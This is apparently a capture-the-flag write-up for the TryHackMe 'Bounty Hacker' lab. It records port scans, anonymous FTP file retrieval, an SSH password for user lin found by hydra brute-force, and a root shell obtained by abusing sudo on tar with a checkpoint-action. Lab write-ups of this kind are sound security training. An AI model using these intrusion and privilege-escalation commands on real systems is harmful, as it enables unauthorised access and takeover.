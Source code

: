 # Link
- https://tryhackme.com/r/room/cowboyhacker

# Info
- IP = $IP

## Creds
 - lin:RedDr4gonSynd1cat3

# Ports

## PortScan
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

## 21

### `nmap`
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:$IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
```

### Anonymous Login
- "ls" command is not working... the terminal shows "Entering Extended Passive Mode"

### checking how to pentest ftp
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp
- `wget -m --no-passive ftp://anonymous:anonymous@<IP>`

### checking the files
1. locks.txt
    - wordlist
2. task.txt
    ```
    1.) Protect Vicious.
    2.) Plan for Red Eye pickup on the moon.

    -lin
    ```
    - maybe 

## 22

### `nmap`
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
```

### using username and wordlist found to try bruteforce using `hydra`
- `[22][ssh] host: $IP   login: lin   password: RedDr4gonSynd1cat3`

## 80

### `nmap` 
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### `gobuster`
#### `./gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt`
```
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://$IP/images/]                                                                         
/index.html           (Status: 200) [Size: 969]
/server-status        (Status: 403) [Size: 277]
```

# Actions

## Using creds found to login via ssh in lin's profile

### /home/lin/Desktop/user.txt
- `flag{XXXX}`

## PrivEsc

### `sudo -l`

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

### https://gtfobins.github.io/gtfobins/tar/#sudo

```
lin@bountyhacker:/tmp$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat roo
cat: roo: No such file or directory
# cat root.txt
flag{XXXX}
```


